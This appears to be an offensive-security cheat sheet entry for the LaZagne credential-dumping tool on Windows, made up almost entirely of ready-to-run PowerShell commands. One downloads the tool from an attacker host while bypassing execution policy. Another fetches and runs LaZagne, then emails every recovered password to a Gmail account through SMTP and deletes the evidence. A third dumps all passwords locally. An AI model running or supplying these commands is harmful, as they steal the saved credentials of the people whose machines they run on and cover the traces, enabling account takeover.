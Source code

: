 # Lazagne

% lazagne, dump password
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## download on disk

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<local_ip>:<port|80>/windows/windows_weaponize/bin/LaZagne.exe','<windows_writable_path>/LaZagne.exe')"
```

## file transfert - download csharp into memory (Assembly reflection)
```powershell
powershell -ExecutionPolicy Bypass -noLogo -Command (new-object System.Net.WebClient).DownloadFile('https://github.com/AlessandroZ/LaZagne/releases/download/2.3.2/Windows.zip','1.zip');$shell = new-object -com shell.application; $shell.namespace($pwd.path).copyhere($shell.namespace((join-path $pwd '1.zip')).items())
;$body = [string](.\Windows\laZagne.exe all);$email = 'EMAIL@gmail.com'; $Password = 'PASSWORDHERE'; $SMTPServer = 'smtp.gmail.com'; $SMTPPort = '587'; $subject = 'Passwords'; $smtp = New-Object System.Net.Mail.SmtpClient($SMTPServer, $SMTPPort); $smtp.EnableSSL = $true; $smtp.Credentials = New-Object System.Net.NetworkCredential($email, $Password); $smtp.Send($email, $email, $subject, $body);rm .\1.zip, .\Windows\ -Force -Recurse
```

## dump all passwords (trigger av)
```
lazagne.exe all
```
